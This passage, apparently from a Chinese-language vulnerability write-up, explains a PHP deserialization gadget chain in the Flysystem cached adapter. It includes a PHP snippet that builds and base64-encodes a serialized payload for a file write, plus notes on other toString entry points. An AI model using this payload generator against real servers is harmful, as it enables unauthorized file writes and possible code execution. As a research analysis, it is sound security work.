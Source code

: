 ```
namespace League\Flysystem\Adapter;

use League\Flysystem\Cached\Storage\Adapter;
use League\Flysystem\Config;

class Local extends AbstractAdapter
{

    public function has($path)
    {
    }

    public function write($path, $contents, Config $config)
    {
    }
}

$a = new Local();
$b = new Adapter($a);
echo base64_encode(serialize($b));

```

成功写入

![image-20211105201657028](images/52.png)

不过这里不能控制complete的值去写入,里面应该是会检验php标签



其实这里后半部分的gadget还在,只要找到可控的字符拼接这种类型的都可以去调用到后面的toString,在复现过程中,看到了几个地方都可以去调用toString的,不过只写了第二条链子

参考链接

https://whoamianony.top/2020/12/31/

https://xz.aliyun.com/t/10396#toc-3

